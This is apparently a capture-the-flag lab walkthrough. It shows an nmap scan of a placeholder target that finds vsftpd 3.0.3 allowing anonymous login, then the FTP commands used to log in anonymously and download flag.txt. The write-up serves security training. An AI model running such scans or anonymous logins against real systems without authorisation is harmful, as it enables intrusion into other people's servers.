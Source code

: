 
## scan

```bash
$ nmap -sS -A <targetIP>
```

```
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 3.0.3  
| ftp-syst:    
|   STAT:    
| FTP server status:  
|      Connected to ::ffff:10.10.14.163  
|      Logged in as ftp  
|      TYPE: ASCII  
|      No session bandwidth limit  
|      Session timeout in seconds is 300  
|      Control connection is plain text  
|      Data connections will be plain text  
|      At session startup, client count was 1  
|      vsFTPd 3.0.3 - secure, fast, stable  
|_End of status  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
```

* here, we can try to log in without user credentials because Anonymous FTP login allowed.

<br>

## Access through ftp

```bash
$ nala install ftp
$ ftp anonymous@<targetIP>
ftp> ENTER
ftp> dir
ftp> get flag.txt
ftp> exit
$ cat flag.txt
```

